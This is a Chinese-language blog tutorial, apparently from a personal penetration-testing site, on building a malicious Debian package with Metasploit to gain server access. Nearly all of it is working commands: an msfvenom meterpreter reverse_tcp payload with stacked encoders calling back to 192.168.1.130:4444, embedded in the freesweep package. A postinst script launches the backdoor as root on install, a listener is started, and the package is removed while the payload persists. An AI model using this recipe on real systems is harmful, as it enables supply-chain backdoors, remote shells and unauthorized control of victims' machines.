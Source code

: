 ```yaml
---
title: "制作恶意deb软件包获取服务器权限"
date: 2020-02-23T20:41:02+08:00
author: 姚先生
categories: ['Kali']
tags: ['安全渗透']
---
```




Metasploit制作恶意deb软件包获取服务器权限

<!--more-->



## 实验步骤

* 制作恶意软件包使用--download-only 方式下载freesweep软件包不进行安装 

  ~~~
  apt --download-only install freesweep
  ~~~

* 查询下载下来的freesweep软件包并移动到指定目录

  ~~~
   cd /var/cache/apt/archives
   ls | grep freesweep
   mv /var/cache/apt/archives/freesweep_1.0.1-1_amd64.deb /
  ~~~

*  解压freesweep软件包到free目录 

  ~~~
cd /
dpkg -x freesweep_1.0.1-1_amd64.deb free
  ~~~

*  生成恶意代码到软件包源文件中

  ~~~
  msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp -b "\x00" -i 10  -e x86/shikata_ga_nai  LHOST=192.168.1.130 LPORT=4444 | msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp -b "\x00" -i 10  -e x86/xor_dynamic | msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp -b "\x00" -i 10  -e x86/call4_dword_xor -f elf -o /free/usr/share/freesweep_source
  ~~~

* 创建软件包信息目录 

  ~~~
  mkdir /free/DEBIAN
  ~~~

  ![](http://junmoxiao.org.cn/20200223212844.png)

* 创建软件包信息文件

~~~
tee /free/DEBIAN/control << 'EOF'
Package: freesweep 
Version: 0v1
Section: Games and Amusement 
Priority: optional 
Architecture: amd64 
Maintainer: Ubuntu MOTU Developers 
Description: freesweep_source
EOF
~~~

* 创建deb软件包安装后脚本文件，加载后门 

~~~
tee /free/DEBIAN/postinst << 'EOF'
sudo chmod 755 /usr/share/freesweep_source
sudo /usr/share/freesweep_source &  
EOF 
# &是将命令放到后台运行
~~~

* 给脚本文件添加执行权限

~~~
chmod 755 /free/postinst
~~~

* 构建新的deb安装包

  ~~~
  dpkg-deb --build /free/
  # 会在当前目录下生成构建的软件包free.deb,我们当前的目录是/ 
  ~~~

* 启动msf开启监听

~~~
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.130
run
background
~~~

* 目标机安装安装包

  ~~~
  dpkg -i free.deb 
  ~~~

* 目标机删除安装包和卸载软件包 # 恶意软件包被卸载，payload 依旧正常运行

  ~~~
  rm -rf  free.deb
  dpkg -r free
  ~~~

  